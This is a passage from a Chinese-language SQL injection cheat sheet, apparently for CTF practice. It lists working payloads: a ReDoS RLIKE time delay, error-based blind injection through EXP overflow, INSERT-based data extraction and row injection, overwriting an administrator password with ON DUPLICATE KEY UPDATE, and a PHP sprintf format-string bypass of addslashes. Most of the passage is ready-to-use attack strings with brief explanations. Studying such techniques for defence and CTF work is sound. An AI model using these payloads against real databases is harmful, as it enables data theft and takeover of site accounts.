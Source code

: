   - 无法理解则请自己复习《线性代数》与《数据库系统原理》

- 正则延迟

  - select if(substr((select 1)='1',1,1),concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',1);

ReDOS，无法理解则请自己复习编译原理

#### 报错盲注

select * from (SELECT "E10ADC3949BA59ABBE56E057F20F883E" as password) a where IF(LEFT(password, 1) = "E", EXP(100000000000), 1);

匹配上时产生报错，没匹配上时页面正常。

这里可以用所有会产生错误的函数，而不仅仅局限于那几个会产生报错注入的函数。

### insert into

#### 利用insert 来获取数据

##### 方法一

`sql=insert into test (col1,col2,...) values (val1,val2,...)`

在只能更改val1和回显val1的情况下

val1=`a'+conv(hex((selselectect '123')),16,10)+'.jpg`或`0+conv(hex((select xxx)))`

这边转为十进制的原因是:mysql将字符串转为数字时将其视为10进制数据

##### 方法二

猜测结构,注入两列

`sql=insert into xxx (xx,xx,xx) values ('xx',uuid,uuid)`

payload=`hello',1660,1660),(2,1660,1660)#.jpg`

#### 利用insert来修改数据

 `insert on duplicate key update` ，它能够让我们在新插入的一个数据和原有数据发生重复时，修改原有数据。那么我们通过这个技巧修改管理员的密码即可。 

### 利用php语言特性

#### php中利用格式化字符串漏洞绕过addslashes注入

[https://code.felinae98.cn/ctf/web/php%E4%B8%AD%E5%88%A9%E7%94%A8%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%BB%95%E8%BF%87addslashes%E8%BF%9B%E8%A1%8C%E6%B3%A8%E5%85%A5/](https://code.felinae98.cn/ctf/web/php中利用格式化字符串漏洞绕过addslashes进行注入/)

```php
$username = addslashes($_POST['username']);
$password = addslashes($_POST['password']);
$format = "SELECT * FROM user WHERE username='$username' and password=''%s';";
$sql = sprintf($format, $password);
```
